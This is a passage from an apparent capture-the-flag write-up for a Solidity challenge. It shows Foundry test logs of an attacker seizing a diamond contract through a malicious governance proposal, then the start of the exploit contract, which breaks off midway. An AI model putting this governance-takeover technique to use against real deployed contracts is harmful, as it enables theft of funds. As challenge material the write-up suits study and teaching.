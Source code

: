 ```
# forge test --match-path test/vault.t.sol -vv
[⠊] Compiling...
[⠒] Compiling 1 files with 0.8.20
[⠢] Solc 0.8.20 finished in 4.02s
Compiler run successful!

Running 1 test for test/vault.t.sol:vaultTest
[PASS] testExploit() (gas: 3935678)
Logs:
  setup address : 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
  attacker address : 0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
  pigeonDiamond balance : 3000000000000000000000
  attacker balance : 10000000000000000000
  diamond owner : 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
  Claiming FTC from setup...
  FTC balance of attacker : 10000000000000000000000
  FTC balance of setup : 990000000000000000000000
  FTC totalSupply : 1000000000000000000000000
  Proposal ID for exploit facet : 0
  Attacker votes : 10000000000000000000000
  getPriorVotes(attacker, block.number - 1) : 10000000000000000000000
  v, r, s :
  27
  0x987faeb9c51477cccee2867916547eaabbdad70489f2269ccf92a9bbf9d35cc0
  0x3b1ae5d44573c6a572c750f6eef7ebba3430cb2c34afb0635cc5b08b91274b28
  pigeonDiamond owner : 0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
  attacker ether balance : 3010000000000000000000
  isSolved() : true

Test result: ok. 1 passed; 0 failed; finished in 29.24ms
```

It works, so just exploit it on the actual challenge network

### Exploit contract
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "../src/Setup.sol";
import "../src/ExploitFacet.sol";

contract Exploit {
    Setup public setup_contract;
    address public pigeonDiamond;
    ExploitFacet public exploit;
    uint256 public proposalId;
    
    constructor(address _setup) {
        setup_contract = Setup(_setup);
        pigeonDiamond = address(setup_contract.pigeonDiamond());
    }
    
    function exploit1() public {
        setup_contract.claim();
        exploit = new ExploitFacet();
        
        bytes4[] memory selectors = new bytes4[](1);
        selectors[0] = bytes4(ExploitFacet.becomeOwner.selector);
        proposalId = DAOFacet(pigeonDiamond).submitProposal(address(exploit), hex"", IDiamondCut.FacetCut(address(exploit), IDiamondCut.FacetCutAction.Add, selectors));
        
        FeatherCoinFacet(pigeonDiamond).delegate(address(this));
```